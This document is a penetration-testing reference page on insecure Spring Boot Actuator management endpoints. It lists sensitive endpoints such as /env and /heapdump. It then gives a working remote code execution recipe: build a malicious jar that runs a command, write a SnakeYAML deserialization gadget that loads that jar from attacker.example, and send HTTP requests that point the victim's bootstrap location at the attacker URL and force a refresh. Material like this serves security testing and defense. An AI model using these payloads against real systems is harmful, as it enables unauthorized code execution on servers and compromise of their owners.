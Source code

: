 # Insecure management interface

## Springboot-Actuator

Actuator endpoints let you monitor and interact with your application. 
Spring Boot includes a number of built-in endpoints and lets you add your own. 
For example, the `/health` endpoint provides basic application health information. 

Some of them contains sensitive info such as :

- `/trace` - Displays trace information (by default the last 100 HTTP requests with headers).
- `/env` - Displays the current environment properties (from Spring’s ConfigurableEnvironment).
- `/heapdump` - Builds and returns a heap dump from the JVM used by our application.
- `/dump` - Displays a dump of threads (including a stack trace).
- `/logfile` - Outputs the contents of the log file.
- `/mappings` - Shows all of the MVC controller mappings.

These endpoints are enabled by default in Springboot 1.X.
Note: Sensitive endpoints will require a username/password when they are accessed over HTTP.

Since Springboot 2.X only `/health` and `/info` are enabled by default.

### Remote Code Execution via `/env`

Spring is able to load external configurations in the YAML format.
The YAML config is parsed with the SnakeYAML library, which is susceptible to deserialization attacks.
In other words, an attacker can gain remote code execution by loading a malicious config file.

#### Steps

1. Generate a payload of SnakeYAML deserialization gadget.

- Build malicious jar
```bash
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload
# Edit the payload before executing the last commands (see below)
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

- Edit src/artsploit/AwesomeScriptEngineFactory.java

```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("ping rce.poc.attacker.example"); // COMMAND HERE
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

- Create a malicious yaml config (yaml-payload.yml)

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker.example/yaml-payload.jar"]
  ]]
]
```


2. Host the malicious files on your server.

- yaml-payload.jar
- yaml-payload.yml


3. Change `spring.cloud.bootstrap.location` to your server.

```
POST /env HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
 
spring.cloud.bootstrap.location=http://attacker.example/yaml-payload.yml
```

4. Reload the configuration.

```
POST /refresh HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

## References

* [Springboot - Official Documentation](https://docs.spring.io/spring-boot/docs/current/reference/html/production-ready-endpoints.html)
* [Exploiting Spring Boot Actuators - Veracode](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)

